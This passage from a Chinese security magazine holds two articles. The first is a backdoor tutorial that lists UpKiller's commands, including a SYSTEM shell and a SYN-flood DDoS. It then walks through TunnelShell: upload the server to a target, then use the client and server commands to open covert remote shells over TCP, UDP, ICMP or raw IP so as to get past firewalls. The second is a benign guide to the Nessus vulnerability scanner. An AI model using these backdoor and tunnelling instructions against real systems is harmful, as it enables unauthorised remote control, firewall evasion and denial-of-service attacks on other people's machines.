

如果在输入标志位时选择了 3，那么标志位就由我们自定义，其他的就很简单了。只要构造得好，穿过防火墙是很简单的。

## 3. UDP 协议

使用 UDP 协议基本上和 TCP 协议一样，但 UDP 是不可靠的协议，所以也就没有标志位，在定义隧道的时候就没有这一步了，直接定义源端口和目的端口。下面是 UpKiller 的内置命令：

- [help]：取得命令帮助。
- [Pslist]：列出所有的进程。
- [Pskill]：杀死一个进程（使用 PID）。
- [Shell]：取得一个 Cmd Shell。
- [DDos]：Syn Flooder。
- [Stopddos]：Stop Syn Flooder。
- [Version]：显示版本。
- [Reboot]：重新启动这个系统。
- [Poweroff]：关闭这个系统。
- [Exit]：退出 cmd shell 或是后门程序。

我们在 Command:> 后输入 Shell，就可以获得一个 Local System 权限的 Shell（图 8）。如果想使用 Syn Flooder，使用 DDos IP port 即可，例如 DDos 192.168.0.1 80；使用 Stopddos 即可停止攻击。其他的命令都很简单，就不再一一说明了。



> **编者注**
>
> 读到这里，蝴蝶我特意装了“天网防火墙”和“金山网镖”，再次以“中级”和“高级”安全级别为例进行测试，结果自然是顺利通过，因为你总不能一个端口不开吧？在我看来，软件防火墙很难抵挡住此后门，它们无能为力。如果哪位朋友有硬件防火墙，别忘记做做测试，并把结果拿出来与大家分享！

##### UNIX 系统

上面介绍了 Windows 下隧道工具的应用，但也不能忘记我们可爱的 UNIX。这里介绍一款易于使用的隧道工具 TunnelShell，它通过把恶意数据封装在 IPv4 的分片包中实现远程 Shell 控制。

### 1. 什么是 IP 分片

IP 协议在传输数据包时，将数据报文分为若干分片进行传输，并在目标系统中进行重组，这一过程称为分片（Fragmentation）。IP 分片发生在要传输的 IP 报文大小超过最大传输单位 MTU（Maximum Transmission Unit）的情况。比如一个数据包超过了 MTU 限制的最大值（各种网络类型的 MTU 并不一样），则该数据包需要进行分片传输；但是，如果有人精心构造 IP 分片包，将会导致拒绝服务攻击或者躲避防火墙和网络入侵检测系统（NIDS）的检测。

###### 测试环境

> 本地：FreeBSD 4.9 STABLE

目标：Red Hat Linux 9.0

测试对象：Linux iptables

### 2. TunnelShell 特点

TCP：建立一个虚拟的没有使用 3 次握手的 TCP 连接，不绑定任何端口，因此可以借用其他程序的端口。

UDP：标准的 UDP 数据包，仍然不绑定端口，还是可以借其他程序的端口。但要注意：这里要用 UDP 端口，比如 53（DNS）、69（TFTP）等。

ICMP：标准的 ICMP 数据包，即 Echo-Reply / Echo-Request。

IP：生成原始 IPv4 数据包，如果你的 IPSec 启用，可以使用“-o esp”。

首先把 TunnelShell2.3.tgz 解压缩，然后编译：

```bash
#tar zxvf TunnelShell2.3.tgz
#make
```

> **编者注**
>
> FreeBSD 必须安装 Linux binary，如果使用的是 Linux，就不必了！

编译好之后，生成的程序中 Tunnel 为 Client 端；Tunneld 为 Server 端。先把 Tunneld 上传到目标 Linux 系统，然后运行。“#./tunneld -h”可以查看帮助信息。这里简单解释一下：

```text
-d <delay> 设定延迟时间
-o <protocol> 设定连接协议
-p <cli_port,srv_port> 设定 TCP 或 UDP 端口实现隧道，默认为 80、2000。
-m <cli_req,srv_req> 设定 ICMP 隧道使用的 TYPE，默认为 echo_reply。
-i <id> 设定一个 ID 号，范围是 0-65535。
-t <type> 设定隧道类型，分别有 IP、TCP、UDP、ICMP。
```

```text
UDP、ICMP：
-s <packetsize> 设定数据包大小。
```

### 3. 应用实例

```bash
Server: # ./tunneld -i 1986 -t tcp -p 21,80
Client: # ./tunnel -i 1986 -t tcp -p 21,80 192.168.0.10
Connecting to 192.168.0.10 ... done
#Command

Server: # ./tunneld -i 1986 -t udp -p 53,69
Client: # ./tunnel -i 1986 -t udp -p 53,69 192.168.0.10

Server: # ./tunneld -i 1986 -t icmp -m echo-reply,echo
Client: # ./tunnel -i 1986 -t icmp -m echo-reply,echo 192.168.0.10

Server: # ./tunneld -i 1986 -t ip -o esp
Client: # ./tunnel -i 1986 -t ip -o esp 192.168.0.10
```

上边是 TCP、UDP、ICMP、IP 的应用实例，但要注意：TCP 和 UDP 的端口必须是服务端所开启的服务，不要弄出笑话来啊，呵呵！ICMP 协议只支持 ICMP TYPE 0/8。至于其他的应用，大家可以参考帮助信息。

### 编后

> 隧道真是个好东西，它能使防火墙形同虚设。但隧道也不是万能的，还是有办法来对付这种“狠毒”的后门，具体是什么办法？本期防册《突破防火墙的利器——隧道攻击》会为大家一一解答！最后，再给大家送上两个好东西：一是 TCP 标志位的组合，应用于 UpKiller 中的 TCP 协议，一共 63 种；二是应用于 Linux、FreeBSD、OpenBSD、Solaris 下的 ICMP Shell 的源代码，方便大家参考。这两个好东西以及本文使用到的工具，已经收入本期光盘杂志相关栏目中了，按照文章名查找即可。:D

### Nessus

### 犀利的



文／图 minibird

蝴蝶：Nessus 是古希腊神话中半人马族的一个人物。Nessus 想抢劫宙斯的儿子大力神赫尔克里斯的第二任老婆伊阿尼拉，结果却被赫尔克里斯用毒箭射死了。但是 Nessus 也不简单，临死的时候骗伊阿尼拉说自己的最后一滴血能让男人永不变心，结果赫尔克里斯也挂了。给大家讲这么个故事，无非是想让大家知道，一个优秀的黑客工具，就如同 Nessus 一样，善用它好处多多，但若是误用了，也是后果严重的。

Nessus 是一款大名鼎鼎的安全审计工具，通常被称为漏洞扫描器，其官方网站是 http://www.nessus.org，目前最新发行版本为 2.0.10。它是一款 C/S 结构的软件，服务器端负责执行扫描探测的动作，客户端用来操作服务器端，查看扫描结果。服务器端只能安装在 POSIX 体系结构的 UNIX 平台上，比如 Solaris、FreeBSD、GNU/Linux 等；客户端有两种平台可以选择，除了 POSIX 体系的 UNIX 平台外，还有安装在 Win32 平台上的版本，叫做 NessusWX，当前最新版本为 1.4.4。

Nessus 的各个插件智能协作，某些插件只有在另外一些插件检测到漏洞时才会启动，以作进一步探测。比如 Nessus 如果探测到 FTP 服务不允许匿名登录，那么就不会进行 Anonymous-related 检查。

Nessus 还允许使用者自己编写插件。NASL 是 Nessus 的脚本语言，任何人都可以借助它方便快捷地编写出针对新出现漏洞的测试插件。NASL 还可以保证编写的脚本只能用于针对目的主机的测试，使编写者难以使用编写的脚本用于恶意行为。

#### Nessus 功能

很多商业版本的扫描工具在购买时限制了用户扫描的地址范围，而 Nessus 没有任何限制，你想扫描哪个 IP 地址就扫描哪个。如果硬件允许，想同时扫描多少台主机就同时扫描多少台。

Nessus 的漏洞库每天都更新，丝毫不逊于商业工具，目前已经有 24 大类、近 2000 个漏洞插件。Nessus 不会偷懒地认定 TCP/80 端口的服务一定就是 HTTP，也不会认定 TCP/1234 端口的服务就一定不是 HTTP，不像某些著名的商业扫描器那样偷懒。Nessus 可以检测 HTTPS、SMTPS、IMAPS 等被 SSL 加密的服务，甚至还可以给 Nessus 配置证书，在需要证书的 PKI 体系环境中作更进一步的探测。

Nessus 的扫描探测是通过插件来完成的。Nessus 允许根据扫描目标的具体情况而灵活选择插件，这样可以避免做一些冤枉工作，提高扫描速度。Nessus 能够对多个同样的服务进行识别，比如同一台主机在 TCP/80 和 8080 端口都开启了 HTTP 服务，那么 Nessus 会对两个 HTTP 服务分别进行检测。Nessus 还可以在扫描的时候智能决定选用什么样的插件，比如对于 POP3 或 SMTP 服务，Postfix 和 Sendmail 这 2 个 MTA 都可以提供，而 Nessus 会根据端口的返回信息决定是检测 Postfix 还是 Sendmail 的漏洞。

我们知道，很多扫描探测是带有攻击性质的，特别是在对漏洞进行确认的时候，这样很可能导致被扫描主机崩溃。使用 Nessus 扫描的时候选择“Safe Checks”模式，可以避免这种情况发生。

Nessus 产生的报告内容很完善，包括漏洞的描述、标准编号、严重等级等等，还提供了十分实用的解决方案，并支持 HTML、TXT、PDF 格式的报告输出。

### 安装 Nessus

使用匿名用户登录到 ftp.nessus.org，下载最新的 Nessus 安装包。安装包分两种，一个是 Shell 脚本，一个是源代码。如果喜欢，可以直接编译源代码，如果想省事，可以使用 Shell 脚本安装。

使用源代码安装时，一定要注意安装包的顺序，先看看说明再做。如果安装过程中碰到什么错误，多半是某些库文件找不到，如果不知道怎么解决，到 Nessus 的社区里去请教吧。使用脚本安装很简单，不需要考虑编译的过程，你要做的只是一路确认就行了。本文使用的是脚本安装，平台是红帽子 7.3。安装完成后，使用“Nessusd -D”命令，启动 Nessus 后台服务。

用客户端连接服务器端进行扫描，我们还需要添加一个用户，可不是谁都可以用你装的 Nessus 来进行扫描的。添加用户的命令是 Nessus-adduser。添加用户的时候会提示你 Authentication（认证）方式是选择 Pass 还是 Cert，用户从客户端连接到 Nessus 服务器，是需要身份认证的。Nessus 提供了两种认证模式：口令和证书。如果是自己装来用，直接按回车，选择默认的口令认证模式即可。添加完用户以后，我们就可以启动客户端进行扫描了。

### 使用 Nessus

前面我们说过，Nessus 的客户端分两种，如果安装了 Nessus 的服务器有 X11 Window 和 GTK 库，我们可以直接在服务器的 X-Window 里面启动 Linux 上的客户端，开个终端，输入“nessus”，回车就行了。

这里使用的是 Win32 平台上的客户端：NessusWX，共有 3 种发布形式：源代码、二进制和安装包。本文选择了二进制形式的发布文件，这样既不需要编译代码，也不需要安装，解压缩后直接执行 NessusWX.exe 就可以了。

第一次启动客户端，需要输入要连接的服务器的地址和用户名密码，填写完毕就进入了客户端的主界面（图 1）。



首先要连接到 Nessus 服务器，选择菜单栏中的 Communications，弹出 Connect（连接）面板，依照图 2 所示输入服务器的地址、登录的用户名和密码，其他的保留默认设置。填写完毕后按 Connect 按钮，客户端开始连接服务器，主界面下方信息栏中出现连接的信息。顺利的话，会提示连接成功。



现在我们就可以从客户端来控制服务器进行扫描了。首先要建立一个会话（Session），会话我们可以理解为一个扫描项目。点击主菜单栏中的 Session，选择 New，给会话命名，这里使用了默认的“Session1”，主界面中出现了一本绿色的小书。鼠标右键单击小书，选择 Properties，在弹出的 Session Properties（会话属性）面板中修改会话（图 3）。

在 Targets（目标）面板按 Add 按钮，在弹出的添加目标面板中输入我们要扫描的目标地址，这里选择了单个主机，当然，也可以输入某个子网或一段 IP 范围（图 4）。





在 Options（选项）面板中，使用了默认设置。请注意：默认是选择了 Safe Checks 的，这样可以避免被扫描的目标主机崩溃。当然，安全检查模式下，扫描的准确程度要差一些。



在 Port Scan（端口扫描）面板中仍旧使用默认的设置，扫描目标主机的 1--1024 端口。如果觉得有必要，可以选择 Specific Range，输入“1-65535”，这样可以对全部端口进行扫描。Port Scanners 中列出的是端口扫描的一些选项，其中 Nmap 是 Linux 下大名鼎鼎的端口扫描工具，Nessus 借助它来进行操作系统的识别。其他的选项也可以根据具体的扫描要求而取舍。

在 Comments（注释）面板中，可以填写一些对这个扫描会话的描述，免得以后会话多了，记不清楚哪个会话是做什么的。

Connection（连接）面板是此会话使用的 Nessus 服务器的连接信息，我们前面已经设置好了，可以不用改变它。如果有多个 Nessus 服务器，可以在不同的会话中使用不同的服务器来进行扫描。

好了，经过上面的操作，我们配置好了一个扫描会话。按确定，回到客户端的主机面板。鼠标右键单击“Session1”，选择开始进行扫描即可。等到扫描状态从“Scanning”变为“Finished”的时候，扫描就结束了。按 Preview 可以查看扫描结果（图 6）。看到了吗？检测出的每个漏洞，特别是带有红色标示表示严重漏洞的，不但有漏洞的描述，还提供了解决方案。

在 Plugins（插件）面板中，我们可以选择需要的插件。点击 Select Plugins，弹出 Plugin List（插件列表）面板。你可以数数看到底有多少插件，它绝对不会逊色于任何一款商业扫描器。这么多插件都是 Nessus 的开发人员利用业余时间编写的（图 5）。

